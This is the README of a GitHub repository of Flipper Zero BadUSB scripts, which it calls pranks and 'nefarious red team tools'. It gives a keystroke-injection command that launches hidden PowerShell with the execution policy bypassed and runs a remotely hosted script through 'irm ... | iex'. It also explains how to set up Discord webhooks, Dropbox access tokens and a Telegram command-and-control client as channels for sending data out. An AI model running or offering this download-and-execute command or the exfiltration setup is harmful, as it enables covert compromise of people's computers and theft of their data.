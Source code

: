 # Downloadable-Fast-Execution-Scripts-For-FlipperZero

Easy to setup with tutorials for web hooks etc below...

**THESE SCRIPTS DOWNLOAD AND RUN FROM THIS REPO (Parent .ps1 scripts)-**

https://github.com/beigeworm/assets/tree/main/Scripts

They use this cmd > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

eg. `replace DISCORD_WEBHOOK to your webhook.` etc..

**Setup for Telegram, Discord, Dropbox**

**DROPBOX ACCESS TOKEN SETUP**
1. make an app at https://www.dropbox.com/developers/apps (make sure to grant full access to your new app)
2. generate an access token for your app.

**DISCORD WEBHOOK SETUP**
1. (Server Admin Required) On a discord server chat goto > "edit channel" > "integrations" > "webhooks" 
2. make a new webhook, name it and then click "copy webhook URL".

**TELEGRAM C2 CLIENT**
1. visit https://github.com/beigeworm/Powershell-Tools-and-Toys/tree/main/Command-and-Control for more info

#  If you like my work please leave a star. ⭐


